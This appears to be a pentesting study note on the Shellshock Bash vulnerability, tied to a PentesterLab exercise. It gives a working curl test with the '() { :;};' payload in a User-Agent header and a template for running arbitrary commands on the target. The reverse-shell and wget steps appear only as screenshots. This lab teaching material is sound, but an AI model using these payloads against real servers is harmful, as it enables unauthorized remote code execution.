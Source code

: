 # Shellshock (CVE-2014-6271).
Shellshock is a security vulnerability in the Bash shell, discovered in 2014, that allows attackers to execute arbitrary commands on a vulnerable system. 
It exploits the way Bash handles environment variables and functions. By injecting malicious code into these variables, an attacker can gain control of the system, 
execute commands, or bypass security restrictions, making it a serious risk for servers and devices running vulnerable versions of Bash.

> The following examples can be reproduced in the next lab: [Pentesterlab CVE-2014-6271/Shellshock](https://pentesterlab.com/exercises/cve-2014-6271)

## Detection.
Shellshock can be exploited regularly in `.sh` or `.cgi` files, we can add those extensions to search them in our fuzzing.


<p align="center">
  <img src="https://github.com/user-attachments/assets/c345d0f0-18c2-4540-b2a3-85e0c34000d0" width="700">
  <img src="https://github.com/user-attachments/assets/cebb8533-3432-4f04-a13b-440ceedd163c" width="700">
  <img src="https://github.com/user-attachments/assets/960f5556-2552-4183-9cdb-bbfda6d0d8d0" width="700">
</p>



<br />

> Shellshock payloads allways begin with: ``() { :;};``.

 ### curl.

<br />
Once we think we have found this vulnerability we can send the next `curl` to the server and check if it answers back. If it does we are against a shellshock vulnerability.

```bash 
curl -H ‘User-Agent: () { :;}; echo; echo ¿Es vulnerable?’ ‘http://10.10.10.56/cgi-bin/user.sh’
```

![3](https://github.com/user-attachments/assets/6c0b21d6-0bd6-42b6-b521-ac1d2da3f7a0)

> We can use Burpsuite too.

![4](https://github.com/user-attachments/assets/a81d1633-5f1d-4890-8823-e02daf1e26de)

## RCE.
Once we know are facing Shellshock we can try to excute commands in the target. To de so we will deploy our commands as follows:
```bash
User-Agent: () { :;}; /bin/bash -c "<COMMAND>"
```
### ping
![5](https://github.com/user-attachments/assets/919c41be-6fa8-4434-9da8-312406cee5f3)
### wget
![6](https://github.com/user-attachments/assets/d5026f68-17dd-4653-aa11-cb0fcfc2ba66)
## Reverse Shell.
![7](https://github.com/user-attachments/assets/1fbb699f-7a81-4930-b397-ec00252ab454)
![8](https://github.com/user-attachments/assets/e998e129-99ff-4039-a2bc-1119bb73b80c)

Any of the headers of the request can be used to deploy our payload as you can see in the following pictures:
![10](https://github.com/user-attachments/assets/95cec147-4243-4843-bc07-087fa42bfdf1)
![11](https://github.com/user-attachments/assets/ab9d9ce1-c41f-44b7-ac8e-0c44cf1fae25)









